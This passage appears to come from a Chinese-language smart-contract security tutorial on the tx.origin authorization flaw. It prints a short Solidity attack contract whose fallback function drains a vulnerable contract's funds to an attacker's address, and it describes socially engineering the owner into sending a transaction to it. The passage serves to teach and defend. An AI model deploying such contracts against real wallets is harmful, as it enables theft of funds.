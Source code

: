 请注意，在[11]行中，此合约授权withdrawAll()使用该功能tx.origin。该合约允许攻击者创建表单的攻击合约，

```solidity
import "Phishable.sol";

contract AttackContract { 
    
    Phishable phishableContract; 
    address attacker; // The attackers address to receive funds.

    constructor (Phishable _phishableContract, address _attackerAddress) { 
        phishableContract = _phishableContract; 
        attacker = _attackerAddress;
    }
    
    function () { 
        phishableContract.withdrawAll(attacker); 
    }
}
```

为了利用这个合约，攻击者会部署它，然后说服Phishable合约的所有者发送一定数量的合约。攻击者可能把这个合约伪装成他们自己的私人地址，社工受害人发送某种形式的交易到地址。受害者除非注意，否则可能不会注意到攻击者地址上有代码，或者攻击者可能将其作为多重签名钱包或某些高级存储钱包传递。

